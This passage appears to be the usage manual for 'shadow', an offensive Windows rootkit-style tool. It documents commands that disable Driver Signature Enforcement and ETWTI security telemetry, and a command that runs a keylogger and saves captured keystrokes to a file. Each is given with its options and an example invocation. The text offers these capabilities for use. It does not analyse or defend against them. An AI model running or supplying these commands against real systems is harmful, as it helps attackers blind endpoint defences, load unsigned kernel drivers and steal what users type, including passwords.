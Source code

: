 ## DSE (Driver Signature Enforcement)

Description: Enable or disable Driver Signature Enforcement.

```powershell
shadow.exe misc dse [OPTIONS]
```
Options:

- `--disable`: Disable DSE.
- `--enable`: Enable DSE.

Example usage:
```powershell
shadow-rs.exe misc dse --disable
```

This command disables Driver Signature Enforcement.

## ETWTI

Description: Enable or disable ETWTI.
```powershell
shadow.exe misc etwti [OPTIONS]
```
Options:
- `--disable`: Disable ETWTI.
- `--enable`: Enable ETWTI.

Example usage:
```
shadow.exe misc etwti --disable
```
This command disable ETWTI.

# Keylogger

Description: Runs a keylogger and saves the output to a specified file.
```powershell
shadow.exe misc keylogger --file <FILE>
```
Options:

- `--file`: The file path where the keylogger output will be stored.

Example usage:
```powershell
shadow.exe misc keylogger --file C:\Path\To\Output.txt
```

This command runs the keylogger and stores the output in `C:\Path\To\Output.txt`.





